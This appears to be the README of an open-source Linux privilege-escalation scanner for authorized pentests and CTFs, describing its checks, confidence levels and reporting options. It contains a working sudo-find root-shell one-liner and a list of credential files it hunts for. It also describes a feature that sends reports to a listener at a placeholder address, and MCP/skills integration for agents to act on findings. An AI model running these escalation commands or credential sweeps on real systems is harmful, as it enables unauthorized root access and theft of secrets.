


<p align="center">
  
</p>

<p align="center">
  
  
  
  
  
  
</p>

<p align="center">
  <b>A Linux privilege-escalation scanner that confirms what is actually exploitable</b><br>
  and hands you the exact command to become root.
  <br><br>
  <i>powered by tmrswrr</i>
</p>

<p align="center">
  <a href="#why-confirmesc-is-different">Why</a> &nbsp;&bull;&nbsp;
  <a href="#demo">Demo</a> &nbsp;&bull;&nbsp;
  <a href="#quick-start">Quick start</a> &nbsp;&bull;&nbsp;
  <a href="#agent-integration-mcp--skills">Agent / MCP</a> &nbsp;&bull;&nbsp;
  <a href="#what-it-checks">What it checks</a> &nbsp;&bull;&nbsp;
  <a href="#install--usage">Usage</a>
</p>

---

Most enumeration tools dump hundreds of "maybe interesting" lines and leave
the hard part to you: figuring out which ones are real, then searching the web
for a working exploit.

`confirmesc` does the opposite. It verifies each finding directly against the
live system, labels it with an honest confidence level, and for every
confirmed vector it prints a **ready-to-run command that actually gets you a
root shell**. No guessing which of 200 lines matter, and no opening GTFOBins
in another tab to look up the payload.

Built for pentesters, CTF / Hack The Box players, and system administrators
who want a clear answer to one question: **can this box be escalated right
now, and how?**

## Why confirmesc is different

| | Classic enumerators<br>(LinEnum, linPEAS) | GTFOBins<br>(reference site) | **confirmesc** |
|---|:---:|:---:|:---:|
| Lists suspicious items | Hundreds of lines | - | Only what matters |
| **Confirms it is exploitable** on *this* box | No | No | **Yes, verified live** |
| **Gives the exact exploit command** | No | Look it up by hand | **Yes, ready to paste** |
| Handles the `dash`/`bash` privilege drop | No | Often fails | **Yes** |
| Proves root for real (`euid == 0`) | No | No | **Yes, with `--poc`** |
| Honest confidence levels | No | - | **`CONFIRMED` / `LIKELY` / `INFO`** |

**Four things set it apart:**

- **It confirms, it does not guess.** A finding is marked `CONFIRMED` only when
  the exploitable condition itself was directly observed on the running system:
  a real SUID bit on a known binary, a real dangerous capability, an authorized
  `sudo -l` rule, a genuinely writable root-owned file. Not "this version is
  probably vulnerable."

- **It gives you the payload, so you never search for it.** Every confirmed
  SUID / sudo / capability vector ships with a copy-paste command that spawns an
  interactive root shell. No opening GTFOBins, matching the technique, and
  adapting a one-liner by hand - confirmesc already did that.

- **Its commands work on modern boxes.** On current Debian-based systems,
  `/bin/sh` is `dash`, and both `dash` and `bash` silently drop root the moment they notice
  `euid != ruid`. Many copied GTFOBins one-liners fail because of this.
  confirmesc generates commands that account for it (explicit `setuid(0)`,
  `bash -p`, or a direct `exec()`), so the shell you get is really root.

- **It can prove root, live.** With `--poc` it runs the real escalation payload
  and checks that the resulting process truly has `euid 0`, turning
  "exploitable in theory" into "we got root just now."

- **It is agent-ready.** confirmesc ships an MCP server and a set of skills, so
  an agent can run the scan as a tool and follow a built-in methodology to act
  on the confirmed findings. See [Agent integration](#agent-integration-mcp--skills).

## Demo

An unprivileged user runs `confirmesc`, gets three `CONFIRMED` vectors each with
a ready-to-run root shell, pastes one, and lands a root shell - recorded live in
the `testlab/` Docker sandbox.

<p align="center">
  
</p>

## Quick start

```bash
git clone https://github.com/capture0x/confirmesc
cd confirmesc
python3 -m pip install -e .

confirmesc            # passive scan of the current box, readable text report
```

Read the top of the report. The `ACTIONABLE FINDINGS` section lists every
`CONFIRMED` vector, each with a highlighted `root shell:` line you can copy and
run. That is the whole workflow: **scan, read the confirmed findings, run the
command.**

The process exit code is `1` when any `CONFIRMED` finding exists and `0`
otherwise, which makes it easy to use in CI or CTF automation.

## Agent integration (MCP + skills)

confirmesc is not just a CLI. It ships two optional pieces that let an
MCP-compatible agent drive it: the scan becomes a **callable tool**, and a set
of **skills** gives the agent a methodology to act on the results.

### MCP server

`confirmesc-mcp` exposes scanning over the Model Context Protocol. An agent
lists the tools, calls `scan`, and gets structured findings back, each
`CONFIRMED` one already carrying its ready-to-run exploit command:

<p align="center">
  
</p>

Tools exposed:

- `scan` - run a passive/active scan and return structured findings (with the `exploit_command` for each confirmed vector)
- `list_privesc_checks` - list the available checks by category

Live exploitation (`--poc`) is deliberately **not** exposed: confirming
conditions is safe to automate, but running escalation payloads stays an
operator decision.

```bash
pip install -e ".[mcp]"
confirmesc-mcp            # serve over stdio
```

### Skills

The `skills/` directory holds playbooks an agent loads to work through each
vector class:

| Skill | Role |
|-------|------|
| `confirmesc-triage` | Orchestrator: run confirmesc, read the report, route each `CONFIRMED` finding to the right technique skill |
| `suid-sgid-exploitation` | Turn a confirmed SUID/SGID finding into a root shell |
| `sudo-abuse` | Turn a confirmed sudo rule into a root shell |

Every skill keeps exploitation operator-driven and authorized-targets-only.

## Confidence levels

confirmesc never hides behind vague wording. Every finding carries one of four
levels so you know exactly how much to trust it.

| Level | Meaning |
|-------|---------|
| `CONFIRMED` | The exploitable condition itself was directly observed. Not a guess. |
| `LIKELY` | A strong indicator matched (usually a version string against a known-CVE range), but a backport or runtime condition could still block it. Verify manually. |
| `INFO` | Context worth knowing, not itself an escalation path (e.g. an unclassified SUID binary flagged for manual review). |
| `ERROR` | The check could not complete (missing tool, permission denied). |

## Scan modes: passive, active, PoC

| Mode | Flag | What it does |
|------|------|--------------|
| **Passive** | *(default)* | Only reads file metadata and runs read-only commands (`find`, `getcap`, `sudo -n -l`, `uname -r`). Never writes to disk, never runs an exploit. |
| **Active** | `--active` | Adds one non-destructive step: runs a suspected binary with a harmless flag (`--version`) to confirm it is live. Never spawns a shell, always time-boxed (3s). |
| **PoC** | `--poc` | Actually runs the real escalation payload and verifies `euid == 0`. Each payload is a single read-only `id -u` proof - no shell, no file written, nothing persists. |

> **`--poc` attempts real privilege escalation. Only run it against systems you
> are explicitly authorized to test** (your own systems, a CTF, or an
> engagement with signed authorization).

## Ready-to-run exploit commands (no GTFOBins search needed)

This is the feature that saves you the most time. For every `CONFIRMED`
SUID / sudo / capability finding whose binary has a verified-reliable recipe
(`find`, `bash`, `python`/`python2`/`python3`, `perl`, `ruby`), confirmesc
writes a complete command into the report - one you copy and run to drop
straight into an interactive root shell:

```text
3/3 [CONFIRMED] Exploitable sudo rule: /usr/bin/find
  root shell: sudo /usr/bin/find . -maxdepth 0 -exec /bin/bash -p \; -quit
```

You do not look anything up. You do not adapt a one-liner. You copy the line and
you are root.

**confirmesc never runs this command for you**, in any mode (including `--poc`).
It is printed for you to decide on, exactly like the PoC a manual pentest report
would suggest. It appears as a highlighted `root shell:` line in the text
report, a green box in the HTML report, and the `exploit_command` key in JSON.

## What it checks

<details>
<summary><b>Full list of checks (click to expand)</b></summary>

<br>

- **SUID/SGID + `sudo -l`**, cross-referenced against a curated [GTFOBins](https://gtfobins.github.io/) table
- **14 curated high-impact CVEs** (Dirty Pipe, Dirty COW, two OverlayFS bugs, Netfilter/nf_tables x2 including the widely-weaponized CVE-2024-1086, PTRACE_TRACEME, io_uring, Sudo Baron Samedit, sudo `-1` uid bypass, sudoedit EDITOR escape, PwnKit, polkit D-Bus bypass) via exact, branch-aware version comparison
- **Cron / systemd / `$PATH`** entries writable by the current user that a root-run scheduler will execute
- **Cron wildcard injection** - `tar`/`rsync`/`chown`/`chmod`/`zip`/`7z` run with an unquoted `*` from a directory you can write into
- **Capabilities** (`getcap -r /`) and **critical file** (`/etc/passwd`, `/etc/shadow`, `/etc/sudoers`, ...) writability
- **Group-membership escalation**: `docker`/`lxd`/`lxc`/`disk` group membership combined with actually-verified socket/device access
- **NFS `no_root_squash`** exports (parsed from `/etc/exports`) and NFS client mounts worth a manual look
- **sudo `env_keep`** exposing `LD_PRELOAD`/`LD_LIBRARY_PATH`/`PYTHONPATH`/`PERL5LIB` to an authorized sudo rule
- **Credential recon**: SSH private keys, `.git-credentials`/`.netrc`/`.my.cnf`/`.pgpass`/`wp-config.php`/`.env`, and shell history files that belong to another user but are readable by you

</details>

## Install &amp; usage

```bash
git clone https://github.com/capture0x/confirmesc
cd confirmesc
python3 -m pip install -e .

confirmesc                               # passive scan, text report
confirmesc --active                      # + harmless binary probes
confirmesc --poc                         # + real exploitation proof (authorized only)
confirmesc --format json -o out.json     # machine-readable output
confirmesc --format html -o report.html  # shareable, collapsible HTML report
confirmesc --category suid_sgid_sudo --min-confidence LIKELY
confirmesc --quiet                       # hide per-check progress lines
confirmesc --send http://<YOUR-IP>:8000  # push the report to a confirmesc-recv listener
```

Checks run concurrently, so a full scan is typically dominated by the single
slowest check (the SUID/SGID `find /` walk or `getcap -r /`) rather than the
sum of all of them.

Run it without installing:

```bash
python3 -m confirmesc.cli
```

**Portable single file** (no pip install needed on the target):

```bash
# stage the package under its own name so it stays importable inside the archive,
# then build the zipapp from that staging dir:
mkdir -p build/pyz && cp -r confirmesc build/pyz/
python3 -m zipapp build/pyz -m "confirmesc.cli:main" -o confirmesc.pyz -p "/usr/bin/env python3"
# transfer confirmesc.pyz to the target, then:
python3 confirmesc.pyz --no-color
```

See `testlab/` for a local Docker-based vulnerable sandbox to watch `--poc`
actually gain root, without needing an external target like Hack The Box.

## Remote reporting (`--send`)

When reading the terminal on the target is inconvenient, run a small listener on
your own box and have the scan submit its finished report back to it. The scan
still runs locally on the target with the same tested check code; only the
completed JSON report travels back, where it is re-rendered and saved with the
target's own hostname and timing.

```bash
# on YOUR machine:
confirmesc-recv --port 8000 --save-format html   # listens, prints and saves each report

# on the target:
confirmesc --send http://<YOUR-IP>:8000          # scans locally, then submits the report
```

`confirmesc-recv` options: `--host`/`--port` to bind, `--save-dir` for output
location, and `--save-format text|json|html`.

## Known limitations

<details>
<summary><b>Click to expand</b></summary>

<br>

- `--poc` only covers vectors with a curated non-interactive payload. Editor/pager GTFOBins entries (`vim`, `less`, `man`) need a TTY and are condition-only for now.
- Writable cron/systemd targets are confirmed by write-access, not by waiting for the scheduler to fire and observing root execution.
- Kernel/sudo/polkit CVE matches are version-string based (`LIKELY`); a distro can backport a fix without changing the version string, so always cross-check against your distro's advisory. Fixed-version numbers for the less common CVEs are best-effort and may be off by a point release on some branches.
- `docker`/`lxd` group escalation and `sudo env_keep` findings are condition-only by design: proving them live would mean spinning up a container or writing a shared object to disk, which breaks the "never writes to disk" guarantee.
- Cron wildcard injection detection uses a lightweight statement splitter, not a real shell parser, so quoted separators or wildcards built across variables can be missed.
- The GTFOBins and CVE tables are curated subsets, not a full scrape. Extend them as you hit binaries/CVEs they do not cover yet.

</details>

## Extending

<details>
<summary><b>Click to expand</b></summary>

<br>

- Add binaries to `confirmesc/data/gtfobins.json` (`{"suid": bool, "sudo": bool, "capability": bool, "poc_args": [...], "cap_poc_args": [...]}`). `poc_args`/`cap_poc_args` are optional argv lists appended after the binary path - keep payloads read-only (print a uid, nothing else).
- Add CVEs to `confirmesc/data/cve_matrix.json` (`min_version`, optional `branch_fixes`, `default_fixed_at`).
- Add a new check by subclassing `confirmesc.core.base.Check` and registering it in `confirmesc/checks/__init__.py`.

</details>

## Design rules

- **Target-agnostic**: no check hardcodes a hostname, IP, username, or CTF-specific path. Every check works against any Linux box.
- **No destructive actions**, even under `--active`. If confirming something would require modifying system state, it stays passive/heuristic (`LIKELY`/`INFO`) instead.

## Responsible use

confirmesc is a tool for authorized security testing and education: your own
systems, CTF / Hack The Box targets, or engagements you have written permission
to test. Running privilege-escalation checks, and especially `--poc`, against
systems you do not own or have no authorization to assess may be illegal. You
are responsible for how you use it.

## License

MIT - see [LICENSE](LICENSE).
